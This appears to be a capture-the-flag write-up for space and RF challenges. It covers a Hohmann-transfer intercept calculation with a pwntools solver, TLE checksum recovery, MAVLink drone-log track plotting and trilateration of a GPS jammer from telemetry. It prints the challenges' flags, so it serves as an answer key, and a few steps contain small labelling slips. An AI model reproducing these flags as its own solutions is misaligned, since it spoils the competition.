Convert $\omega_2$ from `rad/s` to `°/s`:
$$
   \omega_{2\text{(deg)}} = 1.026017 \times 10^{-3} \text{ rad/s} \times \frac{180}{\pi} = 0.0587865^\circ/\text{s}
$$

Get $\Delta \omega = \omega_1 - \omega_2 = 0.0636990 − 0.0587865 = 0.0049125 °/s$. Okay so in 1s, `DEFENDER` move (0.0587865 + 0.0049125 = 0.0636990)° => `AGGRESSOR` move 0.0587865°.

Calculate $T_{\text{sync}}$:

$$
   T_{\text{sync}} = \frac{360}{\Delta \omega} = \frac{360}{0.0049125} = 73 281.88 s
$$

**Sumary :** The phase angle drifts at 0.0049125°/s, completing a full 360° cycle every 73 282 s. DEFENDER gains 0.0049125° on AGGRESSOR every second; after 73 282 s it has gained a full lap, and the geometry repeats. Relative angular rate = 0.0049125°/s → synodic period = 360/0.0049125 = 73 282 s.

You know you'll meet the aggressor at the 180° point, but you don't yet know where the aggressor must START for that to happen. So you calculate how far it travels while you're in flight, to do it, we need to calculate the t_f (time of flight):

$$
   a = \frac{r_1 + r_2}{2} \implies a = \frac{6,857,543 + 7,234,448}{2} = \frac{14,091,991}{2} = 7,045,995.5 \text{ m}
$$

$$
   t_{\text{flight}} = \pi \sqrt{\frac{a^3}{\mu}} \implies t_{\text{flight}} = \pi \sqrt{\frac{7,045,995.5^3}{3.985892 \times 10^{14}}} \implies t_{\text{flight}} = \pi \sqrt{8.776100 \times 10^5} \implies t_{\text{flight}} = \pi \times 936.8084 \approx 2,943.0704 \text{ s}
$$

$$
   \phi_{\text{req}} = 180^\circ - \omega_2 \cdot t_{\text{flight}} = 6.9873°
$$

We need the phase angle to be 6.9873° at the moment we burn, but it is currently 90.474°. Since the angle drifts at 0.0049125°/s, we must wait for it to come back around to 6.9873°.

$$
   t_{\text{wait}} = (6.9873 − 90.474)/0.0049125 = −16 994.62 s
$$

$$
   \implies t_{\text{sync}} = t_{\text{sync}} + t_{\text{wait}} = 73,281.88 \text{ s} - 16,994.62 \text{ s} = 56,287.26 \text{ s}
$$

Now we have `wait_time`, let's calculate `delta_v`. We only need to reach `AGGRESSOR` — we don't need to stay on `r2`. So we only need `delta_v1`.

$$
   v_{\text{initial}} = \sqrt{\frac{\mu}{r_1}} = \sqrt{\frac{3.985892 \times 10^{14}}{6\,857\,543}} = \sqrt{5.812420 \times 10^{7}} = 7623.9230\ \text{m/s}
$$

$$
   v_{\text{final}} = \sqrt{\mu \left( \frac{2}{r_1} - \frac{1}{a} \right)} = \sqrt{3.985892 \times 10^{14} \left( 2.916496 \times 10^{-7} - 1.419246 \times 10^{-7} \right)} = 7725.2051\ \text{m/s}
$$

$$
   \Delta v_1 = 7725.2051 - 7623.9230 = 101.2821\ \text{m/s}
$$

The answer is: 101.2821 56287.267

```python
from pwn import *
import re, math

io = remote("0.cloud.chals.io", 23488)

while True:
    data = io.recvuntil(b">", timeout=20).decode(errors="replace")
    print(data)

    m = re.search(r"[A-Za-z_]{2,}\{[^}]+\}", data)
    if m:
        print("FLAG:", m.group(0))
        break

    r = re.findall(r"Orbital Radius:\s*([\d.]+)", data)
    v = re.findall(r"Orbital Velocity:\s*([\d.]+)", data)
    p = re.search(r"Phase Angle:\s*([-\d.]+)", data)
    if r and p:
        r1, r2 = float(r[0]) * 1000, float(r[1]) * 1000
        mu = float(v[0]) ** 2 * r1
        phi0 = float(p.group(1))

    a = (r1 + r2) / 2
    dv = math.sqrt(mu * (2 / r1 - 1 / a)) - math.sqrt(mu / r1)
    tf = math.pi * math.sqrt(a ** 3 / mu)
    w1 = math.degrees(math.sqrt(mu / r1 ** 3))
    w2 = math.degrees(math.sqrt(mu / r2 ** 3))
    rel = w1 - w2
    wait = ((180 - w2 * tf) - phi0) / rel % (360 / abs(rel))

    io.sendline(f"{abs(dv):.3f} {wait:.3f}".encode())
    io.interactive()

io.close()
```

The output will look like this:

```
======================================================================
INTERCEPT SUCCESS!
======================================================================

Excellent work! Your calculations are accurate.

Simulating intercept sequence...
  T-433.4 minutes: Waiting for phase angle alignment...
  T-00:00: Phase angle optimal
  T+00:00: Executing burn, Δv = 156.4 m/s
  T+49.2 minutes: Coast phase complete
  T+49.2 minutes: Circularization burn, Δv = 153.2 m/s
  T+END: Rendezvous achieved!

The aggressor satellite has been successfully intercepted.
Mission accomplished.

Here is your flag: STARPWN{h0hm4nn_tr4nsf3r_1nt3rc3pt}
```

Flag: `STARPWN{h0hm4nn_tr4nsf3r_1nt3rc3pt}`

## Orbital Integrity
>New briefing from Titan Corp, with some nice Ion$ to match it. Looks like a corrupted ground-station transmission left their TLE catalog with every line checksum replaced by X. The orbital elements themselves came through intact, but without valid checksums their tracking software refuses to accept the file and five satellites are drifting toward a comms blackout. Give them a hand will you?
>
>Flag format: STARPWN{<10 digits>}

### Solving the challenge
The file is a `TLE` (Two-Line Element set) catalog - the standard NORAD/NASA format for distributing orbital elements:

```
ISS (ZARYA)
1 25544U 98067A   24015.49583333  .00007234  00000-0  13234-3 0  999X
2 25544  51.6427 256.2654 0003524  87.2841 272.8421 15.4986251343218X
HUBBLE SPACE TELESCOPE
1 20580U 90037B   24020.42361111  .00000812  00000-0  43521-4 0  999X
2 20580  28.4691 102.8345 0002834 134.5621 225.5478 15.0938472139845X
NOAA 19
1 33591U 09005A   24018.65277778  .00000165  00000-0  10947-3 0  999X
2 33591  99.0421 045.8923 0014213 187.3421 172.7234 14.1287513278456X
LANDSAT 9
1 49260U 21088A   24019.51388889  .00000089  00000-0  21456-4 0  999X
2 49260  98.2237 098.4521 0001523  92.5612 267.5732 14.5712843112478X
STARLINK-31415
1 58921U 23215AB  24021.33333333  .00012345  00000-0  82347-3 0  999X
2 58921  53.2156 218.9374 0001029  87.4521 272.6587 15.0623417823456X
```

Simple, find the `X` and we have flag:
- 1st line: Satellite name.
- 2nd line: identity, epoch, drag terms.
- 3rd line: the actual orbit geometry.

The `TLE` is a **fixed-width** format. Every line is exactly 69 chars, and the last one is always the checksum. The checksum rule:
>Sum columns 1–68. Digits contribute their face value. Minus signs contribute 1. Everything else — letters, spaces, periods, plus signs — contributes 0. Take the sum mod 10.

Lets do it with one line to confirm. Take ISS line 2nd:

```
1 25544U 98067A   24015.49583333  .00007234  00000-0  13234-3 0  999X
```

| Cols  | Characters       | Contribution                          | Subtotal |
|-------|------------------|---------------------------------------|---------:|
| 1     | `1`              | line number                           | 1        |
| 2     | ` `              | space → 0                             | 0        |
| 3–7   | `25544`          | 2+5+5+4+4                             | 20       |
| 8     | `U`              | letter → 0                            | 0        |
| 9     | ` `              | space → 0                             | 0        |
| 10–15 | `98067A`         | 9+8+0+6+7, `A` → 0                    | 30       |
| 16–18 | (3 spaces)       | → 0                                   | 0        |
| 19–32 | `24015.49583333` | 2+4+0+1+5 = 12; `.` → 0; rest = 38    | 50       |
| 33–34 | (2 spaces)       | → 0                                   | 0        |
| 35–43 | `.00007234`      | `.` → 0; 0+0+0+0+7+2+3+4              | 16       |
| 44–45 | (2 spaces)       | → 0                                   | 0        |
| 46–52 | `00000-0`        | zeros = 0; **`-` → 1**; 0             | 1        |
| 53–54 | (2 spaces)       | → 0                                   | 0        |
| 55–61 | `13234-3`        | 1+3+2+3+4 = 13; **`-` → 1**; +3       | 17       |
| 62    | ` `              | space → 0                             | 0        |
| 63    | `0`              | ephemeris type                        | 0        |
| 64–65 | (2 spaces)       | → 0                                   | 0        |
| 66–68 | `999`            | 9+9+9                                 | 27       |
| | | **Total** | **162** |

`162 mod 10 = 2` => `X` of 2nd line = `2`

```
def tle_checksum(line):
    body = line[:68]              # columns 1-68 only, checksum column excluded
    total = 0
    for c in body:
        if c.isdigit():
            total = total + int(c)
        elif c == '-':
            total = total + 1
        else:
            total = total + 0     # letters, spaces, '.', '+'
    return total % 10


f = open('corrupted_tles.txt')
lines = f.readlines()
f.close()

digits = []
for line in lines:
    line = line.rstrip('\n')

    if line.startswith('1 '):
        pass                      # it's a data line, keep going
    elif line.startswith('2 '):
        pass                      # it's a data line, keep going
    else:
        continue                  # satellite name line, skip it

    c = tle_checksum(line)
    digits.append(str(c))
    print("X: " + str(c))

flag = ''
for d in digits:
    flag = flag + d

print()
print('STARPWN{' + flag + '}')
```

Flag: `STARPWN{2911565936}`.

<br>
<br>

# COMMUNICATIONS & RF

## Connect the dots

> While known for their big eye in the sky, Prismantir huge drone fleet is also a behemoth to keep in control. Every night, each drone patrols its assigned block, following its route with clockwork precision. But tonight, one unit broke the formation. Can you trace where did it go?
>
>Flag: Expanded acronym in format starpwn\{[A-Za-z_]+\}
>
>For example: ASAP -> starpwn{As_Soon_As_Possible}

### Solving the challenge
The file extension is `.raw`, so I open it in `010 Editor`. First 3 lines is:

```
0000h: FD 1D 00 00 7A 01 01 FD 00 00 06 41 72 64 75 43  ý...z..ý...ArduC 
0010h: 6F 70 74 65 72 20 56 34 2E 36 2E 31 20 28 35 37  opter V4.6.1 (57 
0020h: 35 39 31 63 62 38 29 9C 1C FD 21 00 00 7B 01 01  591cb8)œ.ý!..{.. 
```

Two thinks I noticed:
- First byte is `0xFD` - This is the MAVLink 2 message ([here](https://mavlink.io/en/guide/mavlink_version.html#determining-protocol-message-version)).
- `ArduCopter V4.6.1`  - This drone firmware use [`ArduPilot`](https://ardupilot.org/).

We need to understand the MAVLink message structure:

```
+-------+-------+-------------+-------------+-------+----------+-----------+----------+-----------+------------+-------------+
|  STX  |  LEN  |  INC_FLAGS  |  CMP_FLAGS  |  SEQ  |  SYS_ID  |  COMP_ID  |  MSG_ID  |  PAYLOAD  |  CHECKSUM  |  SIGNATURE  |
+-------+-------+-------------+-------------+-------+----------+-----------+----------+-----------+------------+-------------+
| 1-byte| 1-byte|   1-byte    |   1-byte    | 1-byte|  1-byte  |   1-byte  |  3-bytes |  N-bytes  |   2-bytes  |   13-bytes  |
+-------+-------+-------------+-------------+-------+----------+-----------+----------+-----------+------------+-------------+
0       1       2             3             4       5          6           7          10          10+N         12+N          25+N
```

- `STX`: Start-of-frame marker (Magic byte). `0xFD` for MAVLink v2, `0xFE` for MAVLink v1
- `LEN`: Payload length (not the whole message).
- `INC_FLAGS`: Incompatibility flags. If this byte is `0x1`, the message is cryptographically signed.
- `CMP_FLAGS`: Compatibility flags are used to indicate features won't prevent a MAVLink library from handling the packet.
- `SEQ`: Sequence number, Increments per packet.
- `SYS_ID`: System ID of the sender (ex: `1` for aircraft, `255` for ground station,...).
- `COMP_ID`: Component ID of the sender (ex: `1` for autopilot,...).
- `MSG_ID`: ID of message type in payload. Used to decode data back into message object.
- `PAYLOAD`: Message data. Depends on message type (i.e. Message ID) and contents.
- `CHECKSUM`: CRC-16/MCRF4XX for message (excluding magic byte). Includes CRC_EXTRA byte.
- `SIGNATURE`: Signature to ensure the link is tamper-proof (Optional).

So if we look at the first message, we can have some info like:
- Payload size = `0x1D` = `29`.
- INC_FLAGS and CMP_FLAGS is `0`.
- The severity is `0x06` = `INFO` and the payload is `ArduCopter V4.6.1 (57591cb8)`. Total: `0n29` = `0x1D` = `LEN`.
- MSGID is `0xFD 0x00 0x00` = `253` = `STATUSTEXT`. This message will send status text to the ground station.

I need to know how many drone, what is the msgids,... So I wrote a script to get out:

```
file    : PRISM_S03_B10-30_20260830.raw
bytes   : 149,711,762
frames  : 4,158,449
sysids  : 10

 msgid  name                              count
-----------------------------------------------
    27  RAW_IMU                         146,841
   116  SCALED_IMU2                     146,776
   152  MEMINFO                         146,750
    62  NAV_CONTROLLER_OUTPUT           146,721
   125  POWER_STATUS                    146,666
   163  AHRS                            146,656
    65  RC_CHANNELS                     146,646
    42  MISSION_CURRENT                 146,639
    36  SERVO_OUTPUT_RAW                146,629
 11030  ESC_TELEMETRY_1_TO_4            146,622
   129  SCALED_IMU3                     146,613
     1  SYS_STATUS                      146,600
   147  BATTERY_STATUS                  146,585
   178  AHRS2                           146,571
    33  GLOBAL_POSITION_INT             146,547
    29  SCALED_PRESSURE                 146,541
    74  VFR_HUD                         146,523
    30  ATTITUDE                        146,460
   137  SCALED_PRESSURE2                146,441
    24  GPS_RAW_INT                     146,394
     2  SYSTEM_TIME                     146,354
   164  SIMSTATE                        146,250
   241  VIBRATION                       146,247
   193  EKF_STATUS_REPORT               146,210
   136  TERRAIN_REPORT                  146,200
    32  LOCAL_POSITION_NED              146,197
   168  WIND                            146,141
    87  POSITION_TARGET_GLOBAL_INT      133,876
     0  HEARTBEAT                        36,746
   133  TERRAIN_REQUEST                  17,978
    22  PARAM_VALUE                       6,607
   111  TIMESYNC                          3,816
   253  STATUSTEXT                        2,333
    46  MISSION_ITEM_REACHED              1,254
    49  GPS_GLOBAL_ORIGIN                     9
   242  HOME_POSITION                         8
    77  COMMAND_ACK                           2
```

So we have 10 drones and a bunch of MSGID, what do we need to focus. First I aim the `STATUSTEXT` and hope it will give some flag string, but nah. The challenge ask us to `Can you trace where did it go`, so yea lets do that.

The `MSGID = 33 (GLOBAL_POSITION_INT)` is interesting. The detail is [here](https://mavlink.io/en/messages/common.html#GLOBAL_POSITION_INT). We can extract the `latitude` and `longitude`, then connect every dot we found.

```python
def extract(path):
    data = open(path, "rb").read()
    n = len(data)
    i = 0
    out = defaultdict(list)

    while i < n:
        if data[i] != 0xFD:
            i += 1
            continue
        if i + 12 > n:
            break

        ln = data[i + 1]
        incompat = data[i + 2]
        sysid = data[i + 5]
        msgid = (data[i + 7] | (data[i + 8] << 8) | (data[i + 9] << 16))

        total = 12 + ln + (13 if incompat & 0x01 else 0)
        if i + total > n:
            break

        if msgid == GLOBAL_POSITION_INT:
            pl = data[i + 10 : i + 10 + ln]
            pl += b"\x00" * (28 - len(pl))   
            _t, lat, lon = struct.unpack("<Iii", pl[:12])
            out[sysid].append((lat / 1e7, lon / 1e7))

        i += total

    return {s: np.array(v) for s, v in out.items()}
```

We have to divide with `1e7` cause in `Ardupilot` the units of lat and long is `degE7`. Ex: lat in message is `361544950` => lat = `36.1544950`. Then we draw using `Matplotlib`.

```python
tracks = extract(sys.argv[1])
ids = sorted(tracks)
print(f"{len(ids)} vehicles: " + ", ".join(f"{s}({len(tracks[s]):,})" for s in ids))

cols = min(5, len(ids))
rows = -(-len(ids) // cols)
fig, axes = plt.subplots(rows, cols, figsize=(4.6 * cols, 4.2 * rows))
axes = np.atleast_1d(axes).ravel()

for  ax, sid in zip(axes, ids):
    a = tracks[sid]
    lat, lon = a[:, 0], a[:, 1]
    ax.plot(lon, lat, lw=0.45)                  
    ax.set_title(f"sysid {sid}")
    ax.set_aspect(1 / np.cos(np.radians(lat.mean())))
    ax.tick_params(labelsize=6)

for ax in axes[len(ids):]:
    ax.axis("off")

fig.suptitle(sys.argv[1])
plt.tight_layout()
plt.show()
```

<div align="center">



</div>

The `sysid 4` show us a string `BVLOS`, I tried to submit flag `starpwn{BVLOS}`... But fail, so I look at the chall description. I found out `BVLOS` stand for `Beyond Visual Line of Sight`.

Flag: `starpwn{Beyond_Visual_Line_of_Sight}`.


## Deadly Parade
>Prismantir was assigned to protect a VIP during DynaCon's parade, and their team already had their hands full. They stopped the attacker before he even got out of bed, but his devices were already in place and active. The sky above the Glittercity was tuned to a dead channel. No one realized what was happening until Prismantir's drones began falling from the sky like ducks. Your mission is to find where these deadly toys could have been hiding.
>
>Flag: starpwn{[A-Za-z_]+}
>
>For example: Empire State Building -> starpwn{Empire_State_Building} (This does not mean you need to find an exact building, it's just an example of input)

### Reading the challenge
```
$file PRISM_S05_DNCN_20260831.pcap
PRISM_S05_DNCN_20260831.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Linux cooked v2, capture length 262144)
```

The first UDP payload starts with `0xFD`, which is the MAVLink 2 start byte, and the port pair is `14550 / 45177`. Port `14550` is the standard MAVLink telemetry port.

<div align="center">



*UDP data*

</div>

### Solving the challenge

Like the challenge [`connect the dots`](#connect-the-dots). It has 10 sysid from 1-10, but this time there is a new one sysid-255:

```
file    : PRISM_S05_DNCN_20260831.pcap
bytes   : 207,743,808
link    : LINUX_SLL2 (276), loopback UDP 14550 <-> 45177
frames  : 2,079,339
resync  : 0
sysids  : 10 vehicles (1-10, compid 1) + 1 GCS (255, compid 230)

 msgid  name                              count
-----------------------------------------------
     2  SYSTEM_TIME                      73,321
   164  SIMSTATE                         73,320
   241  VIBRATION                        73,320
    33  GLOBAL_POSITION_INT              73,320
    74  VFR_HUD                          73,320
     1  SYS_STATUS                       73,320
   125  POWER_STATUS                     73,320
   152  MEMINFO                          73,320
    36  SERVO_OUTPUT_RAW                 73,320
   136  TERRAIN_REPORT                   73,319
   193  EKF_STATUS_REPORT                73,319
    62  NAV_CONTROLLER_OUTPUT            73,319
    42  MISSION_CURRENT                  73,319
    65  RC_CHANNELS                      73,319
    27  RAW_IMU                          73,319
   116  SCALED_IMU2                      73,319
   129  SCALED_IMU3                      73,319
    24  GPS_RAW_INT                      73,319
   163  AHRS                             73,318
   178  AHRS2                            73,318
    30  ATTITUDE                         73,318
    29  SCALED_PRESSURE                  73,318
   137  SCALED_PRESSURE2                 73,318
   147  BATTERY_STATUS                   73,317
 11030  ESC_TELEMETRY_1_TO_4             73,316
   168  WIND                             60,174
    32  LOCAL_POSITION_NED               60,174
    87  POSITION_TARGET_GLOBAL_INT       51,896
     0  HEARTBEAT                        21,538
   133  TERRAIN_REQUEST                  20,527
   134  TERRAIN_DATA                     15,237
   264  FLIGHT_INFORMATION                7,128
    20  PARAM_REQUEST_READ                3,160
    66  REQUEST_DATA_STREAM               2,110
   111  TIMESYNC                          1,865
    22  PARAM_VALUE                       1,535
   253  STATUSTEXT                          528
    46  MISSION_ITEM_REACHED                260
    76  COMMAND_LONG                        232
```

I will read the `STATUSTEXT` for finding more info. I see `sys2,3,5` send the `EKF Failsafe: changed to LAND Mode`. Normally, `Failsafe` will trigger RTH (Return Home) if the GPS still works, but since this is an `EKF Failsafe (position data is untrusted)`, it will directly trigger `Auto Land`.
```
...
      3  4,6,9           Reached command #24
      3  4,6,9           Mission: 25 WP
      3  4,6,9           Reached command #25
      3  4,6,9           Mission: 26 WP
      3  2,3,5           EKF variance
      3  2,3,5           EKF Failsafe: changed to LAND Mode
      3  2,3,5           EKF3 IMU1 stopped aiding
      3  2,3,5           EKF3 IMU0 stopped aiding
      3  2,3,5           SmartRTL deactivated: bad position
      3  2,3,5           Disarming motors
      2  8,9             EKF3 IMU0 MAG0 in-flight yaw alignment complete
...
```

I think about 2 scenarios:
- Signal jamming
- GPS spoofing

I use `pymavlink` to make my life ez:

```python
import struct
from pymavlink import mavutil

PCAP_FILE = "PRISM_S05_DNCN_20260831.pcap"

def read_gps_raw_int(sys_id):
    with open(PCAP_FILE, "rb") as f:
        data = f.read()

    mav = mavutil.mavlink.MAVLink(None)
    mav.robust_parsing = True

    offset = 24 
    total = len(data)

    print(f"{'SysID':<7} | {'Time (s)':<10} | {'Fix Type':<10} | {'Sats':<5} | {'EPH':<5} | {'Lat':<12} | {'Lon':<12}")
    print("-" * 80)

    t0 = None

    count = 0
    while offset + 16 <= total:
        ts_sec, ts_usec, incl, orig = struct.unpack("<IIII", data[offset:offset+16])
        offset += 16
        packet = data[offset:offset+incl]
        offset += incl

        ip = packet[20:]
        
        ihl = (ip[0] & 0x0F) * 4
        udp = ip[ihl:]
        
        ulen = struct.unpack(">H", udp[4:6])[0]
        payload = udp[8:ulen]

        if len(payload) < 12 or payload[0] != 0xFD:
            continue

        msgid = payload[7] | (payload[8] << 8) | (payload[9] << 16)

        if msgid == 24:
            sysid = payload[5] 
            if sysid == sys_id:
            
                t = ts_sec + ts_usec / 1e6
                if t0 is None:
                    t0 = t
                    
                msg = mav.decode(bytearray(payload))
                
                lat_deg = msg.lat / 1e7
                lon_deg = msg.lon / 1e7
                
                print(f"{sysid:<7} | {t - t0:<10.3f} | {msg.fix_type:<10} | {msg.satellites_visible:<5} | {msg.eph:<5} | {lat_deg:<12.7f} | {lon_deg:<12.7f}")
                if lat_deg == 0.0 and lon_deg == 0.0:
                    count += 1
                    if count >= 10:
                        return

if __name__ == "__main__":
    read_gps_raw_int(2)
    read_gps_raw_int(3)
    read_gps_raw_int(5)
```

Output:

```
SysID   | Time (s)   | Fix Type   | Sats  | EPH   | Lat          | Lon
--------------------------------------------------------------------------------
...     | ...        | ...        | ...   | ...   | ...          | ...
2       | 1009.210   | 6          | 10    | 121   | 36.0924482   | -115.2420957
2       | 1009.239   | 6          | 10    | 121   | 36.0924478   | -115.2421402
2       | 1009.266   | 6          | 10    | 121   | 36.0924476   | -115.2421623
2       | 1009.294   | 6          | 10    | 121   | 36.0924474   | -115.2421846
2       | 1009.320   | 6          | 10    | 121   | 36.0924472   | -115.2422068
2       | 1009.350   | 1          | 3     | 121   | 0.0000000    | 0.0000000
2       | 1009.384   | 1          | 3     | 121   | 0.0000000    | 0.0000000
2       | 1017.106   | 1          | 3     | 121   | 0.0000000    | 0.0000000
2       | 1017.144   | 1          | 3     | 121   | 0.0000000    | 0.0000000
2       | 1017.182   | 1          | 3     | 121   | 0.0000000    | 0.0000000

SysID   | Time (s)   | Fix Type   | Sats  | EPH   | Lat          | Lon
--------------------------------------------------------------------------------
...     | ...        | ...        | ...   | ...   | ...          | ...
3       | 1758.207   | 6          | 10    | 121   | 36.0778997   | -115.2438926
3       | 1758.231   | 6          | 10    | 121   | 36.0778987   | -115.2439369
3       | 1758.259   | 6          | 10    | 121   | 36.0778982   | -115.2439590
3       | 1758.291   | 6          | 10    | 121   | 36.0778977   | -115.2439812
3       | 1758.318   | 6          | 10    | 121   | 36.0778972   | -115.2440034
3       | 1764.975   | 1          | 3     | 121   | 0.0000000    | 0.0000000
3       | 1765.068   | 1          | 3     | 121   | 0.0000000    | 0.0000000
3       | 1765.125   | 1          | 3     | 121   | 0.0000000    | 0.0000000
3       | 1765.182   | 1          | 3     | 121   | 0.0000000    | 0.0000000
3       | 1765.217   | 1          | 3     | 121   | 0.0000000    | 0.0000000

SysID   | Time (s)   | Fix Type   | Sats  | EPH   | Lat          | Lon
--------------------------------------------------------------------------------
...     | ...        | ...        | ...   | ...   | ...          | ...
5       | 1413.250   | 6          | 10    | 121   | 36.0997057   | -115.2477323
5       | 1419.826   | 6          | 10    | 121   | 36.0997055   | -115.2477767
5       | 1419.869   | 6          | 10    | 121   | 36.0997054   | -115.2477989
5       | 1419.903   | 6          | 10    | 121   | 36.0997053   | -115.2478212
5       | 1419.939   | 6          | 10    | 121   | 36.0997052   | -115.2478434
5       | 1419.984   | 1          | 3     | 121   | 0.0000000    | 0.0000000
5       | 1420.036   | 1          | 3     | 121   | 0.0000000    | 0.0000000
5       | 1420.074   | 1          | 3     | 121   | 0.0000000    | 0.0000000
5       | 1420.111   | 1          | 3     | 121   | 0.0000000    | 0.0000000
5       | 1420.152   | 1          | 3     | 121   | 0.0000000    | 0.0000000
```

You can see, `satellites_visible` is massively drop down from `10 -> 3`, and the `lat; lon` is drop down to `0; 0`. This is `jamming` for sure. To sumarize:
- Drone 2 lost signal at `1009.350`, the last is `36.0924472 -115.2422068` [(map)](https://www.google.com/maps/place/36%C2%B005'32.8%22N+115%C2%B014'31.9%22W/@36.0896733,-115.2439538,15.25z/data=!4m4!3m3!8m2!3d36.0924472!4d-115.2422068?entry=ttu&g_ep=EgoyMDI2MDgxMC4wIKXMDSoASAFQAw%3D%3D)
- Drone 3 lost signal at `1758.318`, the last is `36.0778972 -115.2440034` [(map)](https://www.google.com/maps/place/36%C2%B004'40.4%22N+115%C2%B014'38.4%22W/@36.0778972,-115.2465783,17z/data=!3m1!4b1!4m4!3m3!8m2!3d36.0778972!4d-115.2440034?entry=ttu&g_ep=EgoyMDI2MDgxMC4wIKXMDSoASAFQAw%3D%3D)
- Drone 5 lost signal at `1419.984`, the last is `36.0997052 -115.2478434` [(map)](https://www.google.com/maps/place/36%C2%B005'58.9%22N+115%C2%B014'52.2%22W/@36.0977228,-115.2518521,15.5z/data=!4m4!3m3!8m2!3d36.0997052!4d-115.2478434?entry=ttu&g_ep=EgoyMDI2MDgxMC4wIKXMDSoASAFQAw%3D%3D)

This is the `Trilateration`. `Trilateration` is a math method used to find an unknown position or location by measuring the distances from `three` or more known reference points.

To solve this, first we need to convert `lat; long` to `2D (x, y)` since the circumcenter formula relies on `2D Euclidean` geometry, we must first project the curved GPS coordinates onto a 2D flat plane before calculating.

We should pick a point as a origin. I pick the `drone 2` ($LAT_0 = 36.0924472$, $LON_0 = -115.2422068$) as a origin.

$$
   MLAT = 111320.0
$$

$$
   MLON = 111320.0 \cdot \cos(36.0924472^\circ) \approx 89954.51
$$

Then I convert it to `2D (x, y)` with formula. ($X = (lon - LON_0) \cdot MLON$ and $Y = (lat - LAT_0) \cdot MLAT$):
- Drone 2 (original point): 
    - $x_1 = 0$.
    - $y_1 = 0$.
- Drone 3: 
    - $x_2 = (-115.2440034 - (-115.2422068)) \cdot 89954.51 = -0.0017966 \cdot 89954.51 \approx -161.61$.
    - $y_2 = (36.0778972 - 36.0924472) \cdot 111320.0 = -0.0145500 \cdot 111320.0 \approx -1619.71$.
- Drone 5:
    - $x_3 = (-115.2478434 - (-115.2422068)) \cdot 89954.51 = -0.0056366 \cdot 89954.51 \approx -507.04$.
    - $y_3 = (36.0997052 - 36.0924472) \cdot 111320.0 = 0.0072580 \cdot 111320.0 \approx 807.97$.

Calculate `d` and because $x_1=0$ and $y_1=0$:

$$
   d = 2 \cdot [x_1 \cdot (y_2 - y_3) + x_2 \cdot (y_3 - y_1) + x_3 \cdot (y_1 - y_2)] \implies 2 \cdot (x_2 \cdot y_3 - x_3 \cdot y_2)
$$

$$
    \implies 2 \cdot ((-161.61 \cdot 807.97) - (-507.04 \cdot -1619.71)) = -1903667.76
$$

Next, I calculate the squared distances from `the origin (Drone 2)` to `Drone 3` and `Drone 5` using the `Pythagorean theorem ($x^2 + y^2$)`. These values are needed to solve the circumcenter equations.

$$
   S_2 = x_2^2 + y_2^2 = (-161.61)^2 + (-1619.71)^2 \approx 2649578.28
$$

$$
   S_3 = x_3^2 + y_3^2 = (-507.04)^2 + (807.97)^2 \approx 909905.08
$$

I have 3 equations and I assume the `Jammer` at $(u_x, u_y)$:

$$
   u_x = \frac{S_2 \cdot y_3 - S_3 \cdot y_2}{d} \iff \frac{(2649578.28 \cdot 807.97) - (909905.08 \cdot -1619.71)}{-1903667.76} = \frac{3614562110.0}{-1903667.76} \approx -1898.73 \text{ m}
$$

$$
   u_y = \frac{-S_2 \cdot x_3 + S_3 \cdot x_2}{d} = \frac{-(2649578.28 \cdot -507.04) + (909905.08 \cdot -161.61)}{-1903667.76} =  \frac{1196392409.3}{-1903667.76} \approx -628.47 \text{ m}
$$

We then verify the distance from the estimated `Jammer` $(u_x, u_y)$ back to Drone 2 $(0, 0)$.

$$
   R = \sqrt{(u_x - x_1)^2 + (u_y - y_1)^2} \iff = \sqrt{(u_x - 0)^2 + (u_y - 0)^2} = \sqrt{u_x^2 + u_y^2}
$$

$$
   R = \sqrt{(-1898.73)^2 + (-628.47)^2} = \sqrt{4000150.15} \approx 2000.04 \text{ m}
$$

Do small step to verify, I calculate the distance from `Jammer` $(-1898.73, -628.47)$ to `Drone 5` $(-507.04, 807.97)$:

$$
   R = \sqrt{(u_x - x_3)^2 + (u_y - y_3)^2} = \sqrt{(-1391.69)^2 + (-1436.44)^2} = \sqrt{4000159.1} \approx 2000.04 \text{ m}
$$

Same with the `Drone 3` $(-161.61, -1619.71)$. $R \approx 2000.04 \text{ m}$

Yep, look like we found it. The radius from 3 drone to jammer is arround 2km. We will convert from `2D (x,y)` to the `lat; long`.

$$
   jammer\_lat = LAT_0 + \frac{u_y}{MLAT} = 36.0924472 + \frac{-628.47}{111320.0} \approx 36.086801
$$

$$
   jammer\_lon = LON_0 + \frac{u_x}{MLON} = -115.2422068 + \frac{-1898.73}{89954.51} \approx -115.263314
$$

=> Jammer at `36.086801 -115.263314`. Flag: `starpwn{Echo_Trail_Park}`

<br>
<br>

# SPACE COMMUNICATIONS & RF

## Silent Beacon

>A new brief from Titan Corp, but keep this one on the down low. One of their classified CubeSats went silent after a suspected cyber intrusion. The last telemetry burst was captured at the ground station, but the file is raw, CCSDS packets buried in line noise, with multiple APIDs interleaved.
>
>Your task is to recover the lost telemetry, more deets in the telemetry_dictionary.json,
>
>Flag format: STARPWN{...}

### Reading the challenge

The zip file contains 3 files: `packet_ids.txt`, `telemetry_dictionary.json` and `capture.bin`. The data of `packet_ids.txt`:

```
Spacecraft Packet Identifier (APID) Directory
==============================================
Source: archived ops handbook rev 3.1 (partial recovery).
Sync marker (Attached Sync Marker, ASM): 0x1ACFFC1D
All packets follow the CCSDS Space Packet Protocol (CCSDS 133.0-B-2):
  - 4-byte ASM prefix
  - 6-byte primary header (version/type/sec-hdr-flag/APID,
    sequence flags + count, packet data length minus 1)
  - variable-length packet data field (no secondary header in this mission)

APID  Mnemonic         Description                       Payload
----  ---------------  --------------------------------  ----------------------
  50  SYSLOG           Free-form system log message      Variable-length ASCII
 100  HK_NOMINAL       Housekeeping telemetry            14-byte fixed (see dict)
 200  ADCS_STATUS      Attitude control snapshot         8-byte fixed (decode TBD)

[remaining APID definitions corrupted -- file truncated at line 26]
```

First, what is `APID` ? `APID` stand for `Application Process Identifier`. It is a core concept established by the `CCSDS` (Consultative Committee for Space Data Systems), which writes the communication standards used by NASA, ESA, and almost all modern spacecraft.

When a satellite sends telemetry down to Earth, or when Earth sends a command up to the satellite, the data is chopped into "Space Packets." The APID is an 11-bit ID number stamped on the header of every single packet to identify its origin or destination.

So we know the structure of packet:

```
+--------------+----------------------------------------------------+-----------------------+
|  ASM Prefix  |                   Primary Header                   |   Packet Data Field   |
|              | (Ver/Type/SecFlag/APID | Seq/Count | Data Len - 1) |                       |
+--------------+----------------------------------------------------+-----------------------+
